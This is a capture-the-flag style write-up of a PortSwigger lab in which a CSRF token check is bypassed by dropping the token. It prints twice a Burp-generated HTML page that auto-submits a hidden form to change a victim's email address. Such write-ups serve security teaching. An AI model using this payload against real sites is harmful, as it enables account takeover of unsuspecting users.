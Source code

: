 # CSRF where token validation depends on token being present

> **Vulnerability Type:** CSRF  
> **Lab URL:** [CSRF Lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)

---

## Objective  
Use the provided exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address on their account.

---

## Setup  
- **Tools Used:** Burp Suite  
- **Environment Details:** PortSwigger Lab  

---

## Methodology  

### 1. **Discovery**

#### **Initial Observations:**
- Logged in using the provided credentials, navigated to the account page, and attempted to change the email address.
- Noticed the presence of a CSRF token in the HTTP request associated with the email change.

#### **Testing Approach:**
- Sent the email change HTTP request to Burp Suite Repeater.
- Modified the request by changing the email address and removing the CSRF token parameter.
- The proof of concept was successful, and I proceeded to generate the exploit server's POC with Burp Suite.
  ```
    <html>  
  <!-- CSRF PoC - generated by Burp Suite Professional -->  
  <body>  
    <form action="https://0a47004303b97a8d878c5e8a009a00a3.web-security-academy.net/my-account/change-email" method="POST">  
      <input type="hidden" name="email" value="blank&#64;gmail&#46;com" />  
      <input type="submit" value="Submit request" />  
    </form>  
    <script>  
      history.pushState('', '', '/');  
      document.forms[0].submit();  
    </script>  
  </body>
  ```
</html>  
Store it in the exploit server, send to victim and complete the lab.  

---

### 2. **Exploitation**  
- **Payload Used:**  
  ```CSRF
    <html>  
  <!-- CSRF PoC - generated by Burp Suite Professional -->  
  <body>  
    <form action="https://0a47004303b97a8d878c5e8a009a00a3.web-security-academy.net/my-account/change-email" method="POST">  
      <input type="hidden" name="email" value="blank&#64;gmail&#46;com" />  
      <input type="submit" value="Submit request" />  
    </form>  
    <script>  
      history.pushState('', '', '/');  
      document.forms[0].submit();  
    </script>  
  </body>

